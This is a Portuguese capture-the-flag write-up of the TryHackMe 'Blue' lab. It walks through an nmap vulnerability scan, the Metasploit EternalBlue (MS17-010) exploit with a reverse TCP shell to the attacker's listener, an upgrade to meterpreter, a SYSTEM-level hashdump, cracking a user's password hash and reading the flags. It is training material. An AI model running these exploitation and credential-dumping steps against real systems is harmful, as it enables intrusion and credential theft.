

<div class="page"/>

# **Exploração - Blue | Sonael de A. Angelos Neto**

- ### **Vulnerabilidade MS17-010**

  A Vulnerabilidade MS17-010 é uma falha de segurança na implementação do protocolo SMB (Server Message Block) em sistemas operacionais Windows. Ela foi descoberta pela primeira vez em março de 2017 e foi considerada particularmente grave, pois permitia aos invasores remotos executar código arbitrário e ganhar controle completo sobre os sistemas afetados.

  A vulnerabilidade MS17-010 tornou-se conhecida amplamente devido ao uso em ataques cibernéticos massivos, como o WannaCry ransomware, que se espalhou rapidamente em todo o mundo em maio de 2017. Em uma campanha de ataque bem-sucedida, os invasores podem explorar a vulnerabilidade para se espalhar de um sistema para outro dentro da rede corporativa, a fim de obter acesso aos dados confidenciais.

  Foi lançado um patch pela Microsoft para corrigir a vulnerabilidade MS17-010, e os usuários de sistemas operacionais Windows foram altamente encorajados a instalá-lo o mais rapidamente possível. Além disso, recomenda-se uma boa prática de segurança, como manter o software sempre atualizado, ter uma solução de segurança em tempo real em execução e realizar backups regulares dos dados importantes.

---

## **<center>Sumário</center>**

  **Nesse documento resolve a maquina do TryHackMe chamada "Blue".**

  1. #### ***<a href="#recon">Recon.</a>***
     1. #### ***<a href="#1">Scan the machine.</a>***
     2. #### ***<a href="#2">How many ports are open with a port number under 1000?</a>***
     3. #### ***<a href="#3">What is this machine vulnerable to?</a>***
   
  2. #### ***<a href="#access">Gain Access.</a>***
     1. #### ***<a href="#4">Start Metasploit.</a>***
     2. #### ***<a href="#5">Find the exploitation code we will run against the machine. What is the full path of the code?.</a>***
     3. #### ***<a href="#6">Show options and set the one required value. What is the name of this value?</a>***
     4. #### ***<a href="#7">Run the exploit.</a>***
     5. #### ***<a href="#8">Confirm that the exploit has run correctly.</a>***
  
  3. #### ***<a href="#escalate">Escalate.</a>***
     1. #### ***<a href="#9">What is the name of the post module we will use?</a>***
     2. #### ***<a href="#10">Show options, what option are we required to change?</a>***
     3. #### ***<a href="#11">Set the required option, you may need to list all of the sessions to find your target here. </a>***
     4. #### ***<a href="#12">Select that session for use</a>***
     5. #### ***<a href="#13">Verify that we have escalated to NT AUTHORITY\SYSTEM.</a>***
     6. #### ***<a href="#14">List all of the processes running via the 'ps' command.</a>***
     7. #### ***<a href="#15">Migrate to this process using the 'migrate PROCESS_ID' command.</a>***
  
  4. #### ***<a href="#cracking">Cracking.</a>***
     1. #### ***<a href="#16">What is the name of the non-default user?</a>***
     2. #### ***<a href="#17">What is the cracked password?</a>***
  
  5. #### ***<a href="#flags">Find Flags!</a>***
     1. #### ***<a href="#18">Flag1.</a>***
     2. #### ***<a href="#19">Flag2.</a>***
     3. #### ***<a href="#20">Flag3.</a>***


### **Complementos:**

   6. #### ***<a href="#21">Dificuldades.</a>***
   7. #### ***<a href="#22">Conclusão.</a>***
   8. #### ***<a href="#23">Referências.</a>***
   9. #### ***<a href="#24">Links p/ Laboratório.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [Metasploit](https://www.metasploit.com/) :
    - Utilizaremos o `Metasploit` para explorar a vulnerabilidade encontrada no laboratório.

- #### [Nmap](https://nmap.org/) :
    - Utilizaremos o `Nmap` para descobrir os serviços e portas abertas na máquina.

---

## **<a id="recon"> • Recon.</a>**

### **<a id="1">1. Scan the machine.</a>**

Nessa task, teremos que descobrir os serviços e portas abertas na máquina utilizando o `Nmap`.

Para facilitar o processo, vamos utilizar um comando que responda as tres perguntas da task de uma vez só.


```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:35:28
╰──➤ nmap -T4 -Pn -v --script vuln 10.10.79.113
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-13 20:35 -03
NSE: Loaded 105 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:35
Completed NSE at 20:35, 10.00s elapsed
Initiating NSE at 20:35
Completed NSE at 20:35, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 20:35
Completed Parallel DNS resolution of 1 host. at 20:35, 1.16s elapsed
Initiating SYN Stealth Scan at 20:35
Scanning 10.10.79.113 [1000 ports]
Discovered open port 445/tcp on 10.10.79.113
Discovered open port 139/tcp on 10.10.79.113
Discovered open port 3389/tcp on 10.10.79.113
Discovered open port 135/tcp on 10.10.79.113
Discovered open port 49154/tcp on 10.10.79.113
Discovered open port 49152/tcp on 10.10.79.113
Discovered open port 49153/tcp on 10.10.79.113
Discovered open port 49159/tcp on 10.10.79.113
Discovered open port 49158/tcp on 10.10.79.113
Completed SYN Stealth Scan at 20:36, 32.41s elapsed (1000 total ports)
NSE: Script scanning 10.10.79.113.
Initiating NSE at 20:36
NSE: [ssl-ccs-injection] No response from server: ERROR
Completed NSE at 20:37, 92.45s elapsed
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Nmap scan report for 10.10.79.113
Host is up (0.28s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

NSE: Script Post-scanning.
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 136.55 seconds
           Raw packets sent: 1336 (58.784KB) | Rcvd: 1203 (48.164KB)

```

Onde temos:

- `-T4` : Define o nível de agressividade do scan, onde `4` é o mais agressivo.
- `-Pn` : Desabilita o ping para descobrir se a máquina está ativa.
- `-v` : Habilita o modo verboso.
- `--script vuln` : Habilita o script de vulnerabilidades.


### **<a id="2">2. How many ports are open with a port number under 1000?</a>**

Através do scan realizado, podemos ver que temos **3** portas abertas abaixo de 1000, sendo elas:

- 135/tcp
- 139/tcp
- 445/tcp

### **<a id="3">3. What is this machine vulnerable to?</a>**

Através do scan realizado, podemos ver que a máquina é vulnerável a `CVE-2017-0143`, que é uma vulnerabilidade de `Remote Code Execution` no `SMBv1` e cujo o exploit é o `ms17-010`.

Então basta responder `ms17-010`.


---

## **<a id="access"> • Gain Access.</a>**

### **<a id="4">1. Start Metasploit.</a>**

Agora que já temos as informações necessárias para explorar a vulnerabilidade, vamos iniciar o `Metasploit` utilizando o comando:

```bash
msfconsole
```

### **<a id="5">2. Find the exploitation code we will run against the machine.</a>**

Com o `Metasploit` aberto, vamos utilizar o comando `search` para encontrar o exploit correto.

```bash

msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

```
O comando `search` nos retorna 5 módulos, sendo que o que nos interessa é o `exploit/windows/smb/ms17_010_eternalblue`, então vamos selecionar ele utilizando o comando `use exploit/windows/smb/ms17_010_eternalblue`.

### **<a id="6">3. Show options and set the one required value.</a>**

Agora que já temos o exploit selecionado, vamos verificar as opções disponíveis para ele utilizando o comando `show options`.

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                            yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows
                                              7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7,
                                             Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Em
                                             bedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.18.20.23      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.

```

Como vemos acima a opção `RHOSTS` é obrigatória, então vamos setar o valor dela utilizando o comando `set RHOSTS` e o ip da máquina alvo.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.79.113
RHOST => 10.10.79.113
```

Para fins didáticos, o Tryhackme pede para utilizarmos o payload `windows/x64/meterpreter/reverse_tcp`, então vamos setar ele atraves do comando:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

Feito isso podemos alterar o `LHOST` para o ip da nossa máquina.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.18.20.23
LHOST => 10.18.20.23
```

### **<a id="7">4. Run the exploit.</a>**

Agora que já temos todas as opções setadas, podemos executar o exploit utilizando o comando `run`.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.18.20.23:4444
[*] 10.10.79.113:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 10.10.79.113:445      - Rex::ConnectionTimeout: The connection with (10.10.79.113:445) timed out.
[*] 10.10.79.113:445      - Scanned 1 of 1 hosts (100% complete)
[-] 10.10.79.113:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.18.20.23:4444
[*] 10.10.79.113:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.79.113:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.79.113:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.79.113:445 - The target is vulnerable.
[*] 10.10.79.113:445 - Connecting to target for exploitation.
[+] 10.10.79.113:445 - Connection established for exploitation.
[+] 10.10.79.113:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.79.113:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.79.113:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.79.113:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.79.113:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.79.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.79.113:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.79.113:445 - Sending all but last fragment of exploit packet
[*] 10.10.79.113:445 - Starting non-paged pool grooming
[+] 10.10.79.113:445 - Sending SMBv2 buffers
[+] 10.10.79.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.79.113:445 - Sending final SMBv2 buffers.
[*] 10.10.79.113:445 - Sending last fragment of exploit packet!
[*] 10.10.79.113:445 - Receiving response from exploit packet
[+] 10.10.79.113:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.79.113:445 - Sending egg to corrupted connection.
[*] 10.10.79.113:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.79.113
[*] Command shell session 1 opened (10.18.20.23:4444 -> 10.10.79.113:49215) at 2023-02-13 20:58:43 -0300
[+] 10.10.79.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.79.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.79.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----


C:\Windows\system32>

```

Como podemos ver acima, o exploit foi executado com sucesso e conseguimos obter uma shell reversa na máquina alvo.

<div class="page"/>

### **<a id="8">5. Confirm that the exploit has run correctly.</a>**

Para confirmar que o exploit foi executado com sucesso, podemos utilizar o comando `sessions` para listar as sessões ativas. Mas antes temos que deixar a sessão atual em background utilizando o comando `CTRL + Z`.

```bash
C:\Windows\system32>^Z
Background session 1? [y/N]  y
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.20.23:4444 -> 10.10.79.113:49215 (10.10.79.113)

```

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

```

Com isso temos a confirmação que a sessão foi criada com sucesso.



---

## **<a id="escalate">• Escalate.</a>**

### **<a id="9">1. What is the name of the post module we will use?</a>**

Vamos utilizar o `search` para procurar por um módulo que nos permita obter uma shell com privilégios de administrador.

```bash

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

```

Vamos utilizar o módulo `post/multi/manage/shell_to_meterpreter` selecionando ele através do comando `use post/multi/manage/shell_to_meterpreter`.

<div class="page"/>

### **<a id="10">2. Show options, what option are we required to change?</a>**

Ao usar `show options` podemos ver que temos que alterar a opção `SESSION` para o número da sessão que criamos anteriormente.

```bash

msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

```

### **<a id="11">3. Set the required option.</a>**

Agora vamos setar a opção `SESSION` para o número da sessão que criamos anteriormente. Para isso primeiro vamos usar o comando `sessions` para listar as sessões ativas e depois vamos setar a opção `SESSION` para o número da sessão que criamos anteriormente.

```bash

msf6 exploit(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.20.23:4444 -> 10.10.79.113:49215 (10.10.79.113)

```


```bash
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

### **<a id="12">4. Select that session for use</a>**

Agora vamos executar o exploit com o comando `run`.

```bash

msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.18.20.23:4433
[*] Post module execution completed

```

O exploit foi executado com sucesso e agora temos uma shell com privilégios de administrador.

Agora vamos selecinar a sessão que criamos anteriormente utilizando o comando `sessions -i 1`.

### **<a id="13">5. Verify that we have escalated to NT AUTHORITY\SYSTEM.</a>**

Para isso vamos rodar o comando `getuid` para verificar se temos privilégios de system.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Como podemos ver acima, temos privilégios de system.

### **<a id="14">6. List all of the processes running via the 'ps' command.</a>**

Vamos listar todos os processos em execução utilizando o comando `ps`.

```bash

meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 140   564   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 428   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 484   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 556   1984  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\cmd.exe
 564   556   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 612   556   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 624   604   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 664   604   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 712   612   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
 720   612   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 728   612   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 840   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 904   712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 952   712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1020  664   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 1088  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1196  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1340  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1424  712   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1496  712   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1632  712   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1956  712   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1984  712   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 2080  840   WmiPrvSE.exe
 2136  712   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM
 2448  712   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 2480  712   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE
 2636  712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 2680  712   vds.exe               x64   0        NT AUTHORITY\SYSTEM
 2808  712   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM

```

### **<a id="15">7. Migrate to this process using the 'migrate PROCESS_ID' command.</a>**

Vamos migrar para o processo `Ec2Config.exe` com o comando `migrate 1632`.

```bash
meterpreter > migrate 1632
[*] Migrating from 1984 to 1632...
[*] Migration completed successfully.
```


---

## **<a id="cracking">• Cracking</a>**

### **<a id="16">1. What is the name of the non-default user?</a>**

Vamos executar o comando `hashdump` para obter as hashes do sistema.

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

O nome do usuário que estamos procurando é `Jon`.

<div class="page"/>

### **<a id="17">2. What is the cracked password?</a>**

Vamos utilizar o [crackstation](https://crackstation.net) para quebrar a hash do usuário `Jon` que é `ffb43f0de35be4d9917ac0cc8ad57f8d`.


Assim temos que a senha do usuário `Jon` é `alqfna22`.


---

## **<a id="flags">• Find Flags!</a>**

### **<a id="18">1. Flag1.</a>**

O laboratório nos dá uma dica de onde encontrar a primeira flag, que é na raiz do sistema.

```bash
meterpreter > cd /
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 00:13:36 -0300  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 02:08:56 -0300  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 00:20:08 -0300  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 19:22:01 -0300  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 19:28:38 -0300  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 19:35:57 -0300  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 00:13:22 -0300  Recovery
040777/rwxrwxrwx  4096   dir   2023-02-13 21:04:38 -0300  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 00:13:28 -0300  Users
040777/rwxrwxrwx  16384  dir   2019-03-17 19:36:30 -0300  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 16:27:21 -0300  flag1.txt
000000/---------  0      fif   1969-12-31 21:00:00 -0300  hiberfil.sys
000000/---------  0      fif   1969-12-31 21:00:00 -0300  pagefile.sys

meterpreter > cat flag1.txt
flag{access_the_machine}
```

A primeira flag é `flag{access_the_machine}`.

### **<a id="19">2. Flag2.</a>**

A dica para a segunda flag é que ela está onde as senhas do windows estão armazenadas.

As senhas do windows estão armazenadas no arquivo `SAM` que fica na pasta `C:\Windows\System32\config`. logo a flag deve estar nessa pasta.

```bash
meterpreter > pwd
C:\Windows\System32\config
meterpreter > cat flag2.txt
flag{sam_database_elevated_access}
```

A segunda flag é `flag{sam_database_elevated_access}`.

### **<a id="20">3. Flag3.</a>**

A dica para a terceira flag é que ela *"pode ser encontrada em um excelente local para loot. Afinal, Administradores costumam ter coisas bem interessantes guardadas."*

Esse local seria `C:\Users\Jon\Documents` pois é onde os usuários costumam guardar seus documentos.

```bash
meterpreter > pwd
C:\Users\Jon\Documents
meterpreter > cat flag3.txt
flag{admin_documents_can_be_valuable}
```

Também seria possível encontrar a flag utilizando o comando `search -f flag3.txt` caso a dica não fosse entendida. Esse comando irá procurar por arquivos com o nome `flag3.txt` em todo o sistema.

A terceira flag é `flag{admin_documents_can_be_valuable}`.

---

<div class="page"/>

## **<a id="21">• Dificuldades.</a>**

*Nenhuma dificuldade relevante =}* 

---

## **<a id="22">• Conclusão.</a>**

Em conclusão, a vulnerabilidade **MS17-010** é uma falha de segurança graves que afeta os sistemas operacionais Windows e que permitia aos invasores remotos ganhar controle completo sobre os sistemas afetados. Esta vulnerabilidade tornou-se amplamente conhecida devido ao seu uso em ataques cibernéticos massivos, como o WannaCry ransomware, que causou danos significativos a empresas e instituições de todo o mundo.

A Microsoft lançou um patch para corrigir a vulnerabilidade **MS17-010**, mas muitos usuários ainda estavam desprotegidos devido à falta de atualização ou devido à presença de sistemas antigos que não eram compatíveis com a atualização. É importante que as pessoas compreendam a importância de manter o software atualizado e de seguir boas práticas de segurança para proteger seus sistemas e dados importantes.

Em resumo, a vulnerabilidade **MS17-010** é um lembrete de que a segurança cibernética é uma questão crítica e contínua e que é necessário tomar medidas para garantir a proteção dos sistemas e dados pessoais.

---

## **<a id="23">• Referências.</a>**

- [Microsoft - Windows SMB Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/en-us/vulnerability/CVE-2017-0143)

- [Wikipédia - WannaCry](https://pt.wikipedia.org/wiki/WannaCry)

- [CVE - CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)

- [ChatGPT](https://chat.openai.com/chat)

---

## **<a id="24">• Laboratório.</a>**

  - [Blue](https://tryhackme.com/room/blue)